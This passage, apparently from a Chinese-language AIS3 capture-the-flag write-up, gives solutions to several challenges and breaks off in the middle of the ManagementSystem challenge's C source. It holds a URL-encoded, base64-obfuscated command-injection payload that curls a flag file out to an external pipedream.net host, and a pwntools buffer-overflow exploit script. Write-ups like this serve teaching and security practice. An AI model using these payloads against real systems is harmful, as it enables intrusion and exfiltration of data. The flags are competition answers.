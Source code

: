 最終 payload
`http://chals1.ais3.org:25565/admin/gitly/raw/master/%60echo%20Y3VybCBodHRwczovL2VvdWR6dzlwaDNoaG5taC5tLnBpcGVkcmVhbS5uZXQ/b3VvPWAvcmVhZGZsYWdg%20%7C%20base64%20-d%20%7C%20sh%60
`

`AIS3{so_many_bugs_so_easy_to_rce}`

## Pwn

### Simply Pwn

就是一個非常單純的 BOF

```python=
from pwn import *

#r = process("./pwn")
r = remote("chals1.ais3.org", 11111)
r.recvuntil(b": ")
payload = b"A"*79+p64(0x4017a9)
raw_input()
r.sendline(payload)
raw_input()
r.interactive()
```

`AIS3{5imP1e_Pwn_4_beGinn3rs!}`

### ManagementSystem

題目是一個 linked list 去實作儲存使用者資訊

研究了一下後發現刪除的地方是使用 gets ，因此可能有安全上的問題

```c
User *delete_user(User *head) {
    printf("Enter the index of the user you want to delete: ");
    char buffer[64];
    gets(buffer);

    int user_index;
    sscanf(buffer, "%d", &user_index);

    if (user_index <= 0) {
        printf("Invalid index.\n");
        return head;
    }

    if (user_index == 1) {
        User *user_to_delete = head;
        head = head->next;
        free(user_to_delete);
        return head;
    }

    User *previous = head;
    User *current = head->next;
    int count = 2;

    while (current != NULL) {
        if (count == user_index) {
            previous->next = current->next;
            free(current);
            return head;
        }

```